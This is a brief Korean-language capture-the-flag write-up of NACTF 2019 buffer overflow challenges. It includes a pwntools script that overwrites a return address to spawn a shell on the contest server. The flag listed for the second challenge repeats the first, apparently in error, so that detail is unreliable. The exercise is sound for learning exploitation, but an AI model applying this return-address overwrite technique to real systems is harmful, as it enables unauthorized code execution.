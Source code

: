 ## solve
그냥저냥 어려운 프로그래밍 문제,,

# BufferOverflow #0
```
The close cousin of a website for "Question marked as duplicate"

Can you cause a segfault and get the flag?

shell.2019.nactf.com:31475
```
## exploit
c 코드를 보면 win에서 쉘을 띄워준다. 버퍼에 입력받는 과정에서 BOF가 발생하므로 gdb를 열어서 buf의 실제 할당 크기와 win의 주소를 구했다. 이후 overflow를 일으켜서 return 주소를 덮어씌우면 쉘이 따진다.
``` python
from pwn import *

#x = process("./bufover-0")
x = remote("shell.2019.nactf.com", 31475)
win = 0x80491c2

x.recvuntil("Type something>")

payload = "a"*(0x18+4)
payload += p32(win)

x.sendline(payload)
x.interactive()
```
## flag
`nactf{0v3rfl0w_th4at_buff3r_18ghKusB}`

# BufferOverflow #1
```
The close cousin of a website for "Question marked as duplicate" - part 2!

Can you redirect code execution and get the flag?

Connect at shell.2019.nactf.com:31462
```
## solve
1번과 같은 원리로 코드를 짰다.
## flag
`nactf{0v3rfl0w_th4at_buff3r_18ghKusB}`
